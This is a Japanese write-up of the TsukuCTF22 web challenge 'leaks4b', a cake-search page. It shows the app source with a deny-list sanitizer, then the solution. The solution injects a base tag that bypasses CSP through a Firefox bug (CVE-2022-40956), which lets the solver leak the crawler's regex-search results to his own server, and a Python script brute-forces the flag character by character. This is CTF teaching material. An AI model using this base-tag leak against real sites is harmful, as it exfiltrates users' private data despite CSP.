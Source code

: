 # leaks4b

## 問題文
ケーキをあいまい検索できます。 どれを注文するか迷ってしまいます！！  
`※フラグの形式はTsukuCTF22{[a-z]{7}}です。多数のリクエストを許容する問題ですが、数秒間隔をあけてください。配布されているソースは厳密なものではありません。フラグの提出回数は3回までとなっています。`  
[http://133.130.96.134:31416](http://133.130.96.134:31416/)  

[leaks4b.zip](files/leaks4b.zip)  

## 難易度
**hard**  

## 作問にあたって
趣味CTFということもあり、キモイ問題を出しても良いでしょうということで1day問を出しました。  
Mozillaに早めに報告してしまったので、0day問ではなくなってしまいました(CVE-2022-40956)。  
CSSiやReDoSを用いたリークなど非想定解が思い浮かびまくり、修正しました。  
もし、Firefoxの1day以外で解かれた方がいましたらWriteupなどで教えてくれると嬉しいです。  
ちなみにMiscのsoderはこの非想定解から生まれた問題です。  
そして4bは嘘です。  

## 解法
URLとソースが渡される。  
アクセスするとケーキを検索できるページのようだ。  
![site1.png](images/site1.png)  
クローラが設置されており、パティシエが閲覧してくれるようだ。  
![site2.png](images/site2.png)  
ひとまず配布されたソースapp.pyを見ると、以下のようであった。  
```python
~~~
def cssi_sanitizer(text):
    # XSS could be mitigated by CSP, but CSSi and ReDoS are dangerous.
    deny_list = ["stylesheet", "import", "image", "style", "flag", "link", "img", "\"", "$", "'", "(", ")", "*", "+", ":", ";", "?", "@", "[", "\\", "]", "^", "{", "}"]
    text = text.lower()
    if any([hack in text for hack in deny_list]):
        return "ハッキングケーキ"
    return text

menu = ["チョコレートケーキ, チョコケーキ, chocolatecake", "チーズケーキ, cheesecake", "バナナケーキ, bananacake"]

@app.route("/<path:path>")
def missing_handler(path):
    abort(404, "ページが見つかりません。\nごめんね(^^♪")

@app.route("/")
def top():
    cake = request.args.get("cake", "チョコレートケーキ")
    cake = cssi_sanitizer(cake[:100])
    flag = request.cookies.get("flag")
    # It is not expected to steal the cookie.
    # This is "leaks4b."
    if (flag == FLAG) and (re.findall(cake, FLAG)):
        img = "flag0.jpg"
    elif re.findall(cake, menu[0]):
        img = f"cake0.jpg"
    elif re.findall(cake, menu[1]):
        img = f"cake1.jpg"
    elif re.findall(cake, menu[2]):
        img = f"cake2.jpg"
    else:
        img = f"cake3.jpg"
    nonce = secrets.token_urlsafe(16)
    return f"""<!doctype html>
<html>
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="Content-Security-Policy" content="script-src 'nonce-{nonce}'; base-uri 'none'; connect-src 'none'; font-src 'none'; form-action 'none'; frame-src 'none'; object-src 'none'; require-trusted-types-for 'script'; worker-src 'none';">
    <script src="https://cdn.tailwindcss.com" nonce="{nonce}"></script>
    <title>Leaks4b</title>
~~~

@app.route("/order", methods=["POST"])
def order_post():
    url = request.form.get("url", "____")
    if not url.startswith("http"):
        return "[ERROR] http and https schemes are allowed."
    try:
        with sync_playwright() as p:
            browser = p.firefox.launch()
            context = browser.new_context()
            context.add_cookies([{"name": "flag", "value": FLAG, "httpOnly": True, "url": URL}])
            page = context.new_page()
            page.goto(url, timeout=10000)
            browser.close()
    except Exception as e:
        print(e)
        pass
    return "I received your cake order. Have the flag and wait for your cake!"
~~~
```
`?cake=`に入力した文字を正規表現としてケーキを検索している。  
フラグも検索できるが、cookieがフラグ文字列と一致している場合にのみ検索可能なようで、クローラ以外には不可能と考えられる。  
フラグが検索できた場合に表示される画像は`flag0.jpg`であり、ケーキは`cake0~3.jpg`である。  
この画像にフラグが書かれているのではと予測し、アクセスするが以下の画像が表示されるだけであった。  
![flag0.jpg](images/flag0.jpg)  
一見すると`?cake=`で任意のHTMLタグを差し込め、XSSによってクローラのcookieを取得できそうだがhttpOnlyであるようだ。  
さらにcssi_sanitizerと、とんでもなく厳しいCSPにより守られており、XSSは愚かCSSiも難しい。  
何とかしてクローラのフラグ検索結果の成否をリークしたい。  
ここでユーザ由来の正規表現を使っているため、ReDoSの可能性もあることに気づく。  
幸いCSPにimgの制限はないため、自身のドメインをsrcに設定したimgタグを挿入し、アクセスの有無を確認することでReDoSの応答遅延によってフラグをリークする手法が思い浮かぶ。  
しかしcssi_sanitizerや文字数制限が邪魔をして、これも難しい。  
ここで試しによくある手法であるbaseタグを挿入すると、CSPでnoneであるはずなのになぜかimgのsrcをbaseのhrefへ問い合わせることがわかる。  
これによって、CSPをバイパスしてimgの相対パスがリークできる。  
imgの画像ファイル名は検索結果によって異なるためクローラのフラグ検索結果のオラクルになりえる。  
あとはフラグに一致する正規表現とbaseタグをcssi_sanitizerを躱してクエリに設定してやればよい。  
フラグの`TsukuCTF22{`リークするクエリは以下になる。  
```
http://http://133.130.96.134:31416/?cake=.suku...22.|%3Cbase%20href=//[自身のサーバ]%3E
```
baseタグは`|`で設定し、特殊文字と小文字化に注意する(フラグの`{`などは`.`を利用して任意の一文字として埋めてやればよい)。  
リークが行えることがわかったら、`/static/img/flag0.jpg`が来るまで小文字すべてをクローラへ投げてやり、ヒットしたらフラグ文字列に追加し次の文字を探せばよい。  
以下のleak.pyで行う。  
```python
import requests

TARGET_URL = "http://133.130.96.134:31416"
LEAK_URL = "http://[自身のサーバ]".replace("http:", "").replace("https:", "")

FLAG = ".suku...22."

for c in "abcdefghijklmnopqrstuvwxyz.":
    res = requests.post(f"{TARGET_URL}/order", data={"url": f"{TARGET_URL}/?cake={FLAG}{c}|%3Cbase%20href={LEAK_URL}%3E"})
    print(res.text)
```
実行し、手動でリークした文字を追加していくとflagが得られた(自動化もできる)。  

## TsukuCTF22{cakeuma}